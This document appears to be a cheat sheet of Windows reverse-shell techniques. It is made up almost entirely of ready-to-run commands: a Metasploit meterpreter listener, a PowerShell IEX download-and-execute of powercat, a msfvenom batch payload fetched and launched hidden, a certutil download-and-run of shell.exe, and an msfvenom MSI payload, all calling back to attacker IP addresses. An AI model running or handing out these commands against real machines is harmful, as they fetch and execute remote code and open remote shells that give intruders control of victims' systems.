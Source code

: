 
common metasploit listener:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; set ExitOnSession false; exploit -j"
```



using powercat:
```bash
attacker machine:

where powercat installed:
python3 -m http.server 9090

start netcat listener:
nc -nvlp 1234


target machine:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.120:9090/powercat.ps1');powercat -c 192.168.1.120 -p 1234 -e cmd"
```


using batch file:
```bash
attacker machine:

msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
python3 -m http.server 9090
nc -nvlp 4444

target systm:
Invoke-WebRequest -Uri "http://192.168.1.120:9090/shell.bat" -OutFile "$env:TEMP\shell.bat"; Start-Process "$env:TEMP\shell.bat" -WindowStyle Hidden

```

using certutil.exe :
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```


Msiexec.exe:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```